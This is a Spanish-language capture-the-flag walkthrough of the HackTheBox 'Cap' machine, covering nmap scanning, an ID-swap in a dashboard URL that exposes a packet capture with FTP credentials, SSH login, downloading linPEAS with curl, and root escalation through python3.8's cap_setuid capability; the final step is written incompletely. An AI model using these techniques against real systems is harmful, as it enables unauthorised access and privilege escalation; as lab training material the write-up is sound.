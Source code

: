# CAP

Hoy haremos la máquina Linux easy Cap de HTB, nos encontraremos con un servicio HTTP en la que deberemos capturar la flag .

## INTRODUCCIÓN

Como siempre lo principal que haremos es comprobar el sistema operativo y la conectividad.
```
ping -c 1 10.10.10.245
```
y el script que tengo en mi repositorio para darnos cuenta que es un sistema oeprativo Linux.

Posteriormente haremos el escaner de puertos con nmap
```
sudo nmap -sCV -T4 --min-rate 4000 10.10.10.245
```
Nos encontramos tres puertos abiertos el 21 - ftp 22- ssh 80 - http

Posteriormente a esto visitamos la web alojada

```
http://10.10.10.245
```
Nos encontramos con un "Dahboard" con diferentes apartados y yo creo que nos centraremos en los servicios y puertos que corren gracias al "network status"

Si nos vamos al apartado de "security snapshot" podemos descargar la trazabilidad de los paquetes y posteriormente leernlos con whireshark.

Si inspeccionamos la URL vemos un /data/1 si lo probamos a cambiar a /data/0 y nos descargamos esos paquetes, veremos algo bastante curioso.

Paquetes por FTP con el usuario y contraseña de ssh para conectarnos.

```
nathan / Buck3tH4TF0RM3!
```
Vamos a conectarnos via ssh

Con esto nos conectamos y tenemos facilita la primera flag de usuario.

Ya dentro podemos utilizar el script de linPEAS para aprovechar otros vectores de privilegios. 
```
curl nuestra ip por hhtp linpeas.sh
```
El reporte que nos da el script contiene datos interesantes la ruta /usr/bin/python3.8 debe tener cap_setuid que esto alude al proceso de ganar privilegios de SUID (root)

si hacemos un 
```
/usr/bin/python3.8
```
```
id
```
nos daremos cuenta que somos root
gg
